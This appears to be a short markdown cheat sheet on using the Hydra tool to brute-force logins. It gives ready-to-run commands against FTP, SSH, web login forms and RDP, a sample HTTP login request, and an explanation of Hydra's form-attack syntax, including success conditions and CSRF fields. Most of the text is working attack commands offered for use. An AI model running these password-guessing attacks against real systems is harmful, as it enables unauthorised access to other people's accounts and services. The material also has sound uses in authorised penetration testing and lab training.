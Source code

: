 # Hydra
- Can brute force FTP, SSH, HTTP, SMTP, POP3, IMAP, MYSQL, MSSQL, VNC, RDP:
- HTTP: `hydra -L usernames.txt -P passwords.txt www.example.com http-get`
- Multiple SSH servers: `hydra -l root -p toor -M targets.txt ssh`
- FTP on non-standard port: `hydra -L usernames.txt -P passwords.txt -s 2121 -V ftp.example.com ftp`
- Web Login Form: `hydra -l admin -P passwords.txt www.example.com http-post-form "/login:user=^USER^&pass=^PASS^:S=302"`
- RDP Brute-forcing: `hydra -l administrator -x 6:8:abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789 192.168.1.100 rdp`

```
POST /login HTTP/1.1
Host: www.example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 29

username=john&password=secret123
```

- Look at the HTML of the login form for details


- The `POST` method indicates that data is being sent to the server to create or update a resource.
- `/login` is the URL endpoint handling the login request.
- The `Content-Type` header specifies how the data is encoded in the request body.
- The `Content-Length` header indicates the size of the data being sent.
- The request body contains the username and password, encoded as key-value pairs.
- Hydra's `http-post-form` service is specifically designed to target login forms: `hydra [options] target http-post-form "path:params:condition_string"`
- You can specify what success or failure is:
  - `hydra ... http-post-form "/login:user=^USER^&pass=^PASS^:F=Invalid credentials"`
  - `hydra ... http-post-form "/login:user=^USER^&pass=^PASS^:S=302"`
  - `hydra ... http-post-form "/login:user=^USER^&pass=^PASS^:S=Dashboard"`

- Form Parameters: These are the essential fields that hold the username and password. Hydra will dynamically replace placeholders (^USER^ and ^PASS^) within these parameters with values from your wordlists.
- Additional Fields: If the form includes other hidden fields or tokens (e.g., CSRF tokens), they must also be included in the params string. These can have static values or dynamic placeholders if their values change with each request.
- Success Condition: This defines the criteria Hydra will use to identify a successful login. It can be an HTTP status code (like S=302 for a redirect) or the presence or absence of specific text in the server's response (e.g., F=Invalid credentials or S=Welcome).

- The form submits data to the root path (/).
  - The username field is named username.
  - The password field is named password.
